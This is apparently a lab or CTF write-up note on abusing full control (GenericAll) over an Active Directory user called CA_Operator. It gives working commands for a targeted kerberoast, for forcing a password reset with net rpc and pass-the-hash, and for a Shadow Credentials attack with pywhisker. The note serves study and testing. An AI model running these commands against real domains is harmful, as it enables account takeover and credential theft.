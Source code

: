 ### CA_Operator (GenericAll)

Full control of a user allows you to modify properties of the user to perform a targeted kerberoast attack, and also grants the ability to reset the password of the user without knowing their current one.

**Targeted Kerberoast**

A targeted kerberoast attack can be performed using targetedKerberoast.py.

```bash
targetedKerberoast.py -v -d 'domain.local' -u 'controlledUser' -p 'ItsPassword'
```

The tool will automatically attempt a targetedKerberoast attack, either on all users or against a specific one if specified in the command line, and then obtain a crackable hash. The cleanup is done automatically as well.

The recovered hash can be cracked offline using the tool of your choice.

**Force Change Password**

Use samba's net tool to change the user's password. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line. The new password will be prompted if omitted from the command line.

```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

It can also be done with pass-the-hash using pth-toolkit's net tool. If the LM hash is not known, use 'ffffffffffffffffffffffffffffffff'.

```bash
pth-net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
```

Now that you know the target user's plain text password, you can either start a new agent as that user, or use that user's credentials in conjunction with PowerView's ACL abuse functions, or perhaps even RDP to a system the target user has access to. For more ideas and information, see the references tab.

**Shadow Credentials attack**

To abuse this permission, use pyWhisker.

```bash
pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```

![](Assets/Pasted%20image%2020250707130639.png)

![](Assets/Pasted%20image%2020250707131414.png)

![](Assets/Pasted%20image%2020250707131832.png)
